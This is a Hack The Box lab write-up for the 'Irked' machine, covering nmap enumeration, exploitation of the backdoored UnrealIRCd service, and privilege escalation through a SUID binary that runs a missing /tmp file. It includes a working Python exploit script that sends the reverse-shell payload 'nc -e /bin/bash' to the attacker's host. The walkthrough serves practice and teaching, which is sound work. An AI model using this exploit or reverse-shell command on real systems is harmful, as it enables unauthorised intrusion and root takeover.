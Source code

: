# HTB - Irked

#### Ip: 10.10.10.117
#### Name: Irked
#### Rating: Easy

----------------------------------------------------------------------

![Irked.png](../assets/irked_assets/Irked.png)

### Enumeration

Lets begin numerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Irked]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.117        
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 09:28 CDT
Nmap scan report for 10.10.10.117
Host is up (0.082s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
55208/tcp open  unknown
65534/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.97 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Irked]
└─$ sudo nmap -sC -sV 10.10.10.117 -p 22,80,111,6697,8067,55208,65534   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-11 09:54 CDT
Nmap scan report for 10.10.10.117
Host is up (0.068s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a5df5bdcf8378b675319bdc79c5fdad (DSA)
|   2048 752e66bfb93cccf77e848a8bf0810233 (RSA)
|   256 c8a3a25e349ac49b9053f750bfea253b (ECDSA)
|_  256 8d1b43c7d01a4c05cf82edc10163a20c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41651/udp   status
|   100024  1          42879/tcp6  status
|   100024  1          44446/udp6  status
|_  100024  1          55208/tcp   status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
55208/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.83 seconds
```

Ok interesting, looks like we've got irc open on this box and also got the admin email.

Lets use some nmap scripts to further enumerate this:

![nmap.png](../assets/irked_assets/nmap.png)

Nice, looks like this version has a backdoor. Lets see if we can find any exploits out there for this.

### Exploitation

Doing a bit of research I found a couple of public exploits, as well as a Metasploit mudule that looked interesting.

But what caught my eye was this site, walking you through how to exploit the backdoor with your own Python script: https://null-byte.wonderhowto.com/how-to/hack-unrealircd-using-python-socket-programming-0198050/

I'm wanting to get better at Python, so this seemed great. It's also nice that this was written in Python2, so I had to do just a little work to update it to Python3. 

Here's my code:

```python
#!/usr/bin/env python3

import socket

rhost = '10.10.10.117'
rport = 6697
payload = 'nc -e /bin/bash 10.10.14.37 443'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((rhost, rport))
s.recv(1024)
s.send((f'AB; ' + payload + '\n').encode())
s.close()
```

We can run this, and with a listener going on port 443 catch a shell back as user ircd:

![python.png](../assets/irked_assets/python.png)

Trying to grab the user.txt flag we get an Permission Denied:

```text
ircd@irked:/home/djmardov$ cat user.txt
cat: user.txt: Permission denied
```
Lets do a bit more enumerating. I'll use LinPEAS to help with this.

### Privilege Escalation

Lets transfer it over to the target using wget and a Python http.server:

![wget.png](../assets/irked_assets/wget.png)

LinPEAS finds there is a SUID bit set on something called viewuser.

![suid.png](../assets/irked_assets/suid.png)

Trying to run the file we see it is trying to execute `/tmp/listusers` and it is being executed as root. Interestingly, this file doesn't exist in `/tmp`.

```text
ircd@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-08-11 10:25 (:0)
sh: 1: /tmp/listusers: not found
ircd@irked:/tmp$ ls
linpeas.sh
systemd-private-c8349f01e73441f1b214ff810446ae1b-colord.service-BmFKvk
systemd-private-c8349f01e73441f1b214ff810446ae1b-cups.service-9IDeEm
systemd-private-c8349f01e73441f1b214ff810446ae1b-rtkit-daemon.service-3a32kP
vmware-root
```

Cool, this should be a breeze.

Lets create a file called `listusers` that is just `/bin/bash` and make it world executable. From there all we need to do is execute it, and it will run with root level permissions.

![cat.png](../assets/irked_assets/cat.png)

Nice!

Lets grab both of the flags now:

![flags.png](../assets/irked_assets/flags.png)

Thanks for following along!

-Ryan

---------------------------------------------

